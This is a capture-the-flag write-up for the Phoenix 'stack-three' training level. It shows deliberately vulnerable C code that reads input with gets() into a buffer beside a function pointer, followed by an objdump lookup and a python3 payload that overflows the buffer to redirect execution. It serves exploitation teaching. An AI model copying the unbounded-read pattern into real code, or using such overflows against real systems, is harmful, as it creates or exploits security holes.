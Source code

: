 # Stack 3

```c
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

## Solution

To solve this we have to jump to the `complete_level` function. We can find it in the symbol table with `objdump`, and then overflow `locals.buffer` to fill `*fp` with it's address.

1. `objdump -t /opt/phoenix/amd64/stack-three | grep complete_level` 
   1. results: `000000000040069d g     F .text	0000000000000018 complete_level`
   2. The first field is the target
2. `python3 -c 'print("A"*63 + "\x9d\x06\x40\x00\x00\x00\x00\x00")' | /opt/phoenix/amd64/stack-three`